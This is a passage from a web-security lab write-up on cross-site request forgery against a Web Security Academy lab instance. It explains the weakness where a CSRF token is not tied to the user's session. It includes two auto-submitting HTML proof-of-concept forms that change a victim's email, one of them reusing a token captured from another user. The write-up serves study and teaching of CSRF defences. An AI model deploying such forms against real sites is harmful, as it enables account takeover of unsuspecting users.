 ![https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/50cb4aa3-6dcf-4e97-ac96-675acfcd5a15/Untitled.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/50cb4aa3-6dcf-4e97-ac96-675acfcd5a15/Untitled.png)

**Proof of Concept — POC:**

```html
<html>
  <body>
    <form action="<https://0aa8000a034e81d681c2033e00ad001c.web-security-academy.net/my-account/change-email>" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

### CSRF token is not tied to the user session

In certain cases, applications fail to verify whether the CSRF token corresponds to the user's session initiating the request. Instead, they uphold a shared repository of issued tokens, accepting any token found within this repository.

- When the CSRF token lacks a direct association with a user's session, attackers could potentially reuse a token acquired from one user to act on behalf of another. This scenario can result in unauthorized activities being carried out across multiple user accounts.

**Request to Change Email Address for User1:**

![https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/88eeaf75-7ac2-4d4c-89eb-e37d9137c759/Untitled.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/88eeaf75-7ac2-4d4c-89eb-e37d9137c759/Untitled.png)

**Request to Change Email Address for User2:**

![https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/a8e91aac-77f2-4a1d-af05-950ad5d53255/Untitled.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/a8e91aac-77f2-4a1d-af05-950ad5d53255/Untitled.png)

Using the CSRF Token of User1 (`uqax4nV25Tssh8sNxkSdLgU3cCKHFvS8`), let's attempt to execute an email update request on behalf of User2. Since the token validation lacks specificity to user sessions, this action is expected to bypass token validation.

![https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/856c6dec-04ae-4e9d-ae8d-5488787fb083/Untitled.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/79b8e813-6109-41a1-851d-5f6aab6a082b/856c6dec-04ae-4e9d-ae8d-5488787fb083/Untitled.png)

**Proof of Concept — POC:**

```html
<html>
  <body>
    <form action="<https://0aa8000a034e81d681c2033e00ad001c.web-security-academy.net/my-account/change-email>" method="POST">
      <input type="hidden" name="email" value="test&#64;email&#46;com" />
      <input type="hidden" name="csrf" value="uqax4nV25Tssh8sNxkSdLgU3cCKHFvS8" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

